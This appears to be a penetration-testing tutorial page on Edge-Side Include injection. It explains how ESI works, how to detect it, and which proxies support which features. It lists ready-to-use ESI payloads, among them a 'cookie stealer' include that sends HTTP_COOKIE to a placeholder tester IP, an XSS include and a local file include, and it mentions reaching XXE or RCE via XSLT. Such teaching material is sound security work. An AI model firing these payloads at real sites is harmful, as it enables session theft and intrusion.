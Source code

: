 # Edge-Side Includes (ESI)

Edge Side Includes (`ESI`) is an XML-based markup language used to tackle performance issues by enabling heavy caching of Web content, which would be otherwise unstorable through traditional caching protocols. Edge Side Includes (ESI) allow for dynamic web content assembly at the edge of the network (Content Delivery Network, User's Browser, or Reverse Proxy) by instructing the page processor what needs to be done to complete page assembly through ESI element tags (XML tags).

ESI tags are used to instruct an HTTP surrogate (reverse-proxy, caching server, etc.) to fetch additional information regarding a web page with an already cached template. This information may come from another server before rendering the web page to the end-user. ESI enable fully cached web pages to include dynamic content.

Edge-Side Include Injection occurs when an attacker manages to reflect malicious ESI tags in the HTTP Response. The root cause of this vulnerability is that HTTP surrogates cannot validate the ESI tag origin. They will gladly parse and evaluate legitimate ESI tags by the upstream server and malicious ESI tags by an attacker.

Although we can identify the use of ESI by inspecting response headers in search for `Surrogate-Control: content="ESI/1.0"`, we usually need to use a blind attack approach to detect if ESI is in use or not. Specifically, we can introduce ESI tags to HTTP requests to see if any intermediary proxy is parsing the request and if ESI Injection is possible. Some useful ESI tags are:

**ESI Tags**

Code: html

```html
// Basic detection
<esi: include src=http://<PENTESTER IP>>

// XSS Exploitation Example
<esi: include src=http://<PENTESTER IP>/<XSSPAYLOAD.html>>

// Cookie Stealer (bypass httpOnly flag)
<esi: include src=http://<PENTESTER IP>/?cookie_stealer.php?=$(HTTP_COOKIE)>

// Introduce private local files (Not LFI per se)
<esi:include src="supersecret.txt">

// Valid for Akamai, sends debug information in the response
<esi:debug/>
```

In some cases, we can achieve remote code execution when the application processing ESI directives supports XSLT, a dynamic language used to transform XML files. In that case, we can pass `dca=xslt` to the payload. The XML file selected will be processed with the possibility of performing XML External Entity Injection Attacks (XXE) with some limitations.

[GoSecure](https://www.gosecure.net/blog/2018/04/03/beyond-xss-edge-side-include-injection/) has created a table to help us understand possible attacks that we can try against different ESI-capable software, depending on the functionality supported. Let us provide some explanations regarding the column names of the below table first:

* Includes: Supports the `<esi:includes>` directive
* Vars: Supports the `<esi:vars>` directive. Useful for bypassing XSS Filters
* Cookie: Document cookies are accessible to the ESI engine
* Upstream Headers Required: Surrogate applications will not process ESI statements unless the upstream application provides the headers
* Host Allowlist: In this case, ESI includes are only possible from allowed server hosts, making SSRF, for example, only possible against those hosts

|         **Software**         | **Includes** | **Vars** | **Cookies** | **Upstream Headers Required** | **Host Whitelist** |
| :--------------------------: | :----------: | :------: | :---------: | :---------------------------: | :----------------: |
|            Squid3            |      Yes     |    Yes   |     Yes     |              Yes              |         No         |
|         Varnish Cache        |      Yes     |    No    |      No     |              Yes              |         Yes        |
|            Fastly            |      Yes     |    No    |      No     |               No              |         Yes        |
| Akamai ESI Test Server (ETS) |      Yes     |    Yes   |     Yes     |               No              |         No         |
|          NodeJS esi          |      Yes     |    Yes   |     Yes     |               No              |         No         |
|         NodeJS nodesi        |      Yes     |    No    |      No     |               No              |      Optional      |
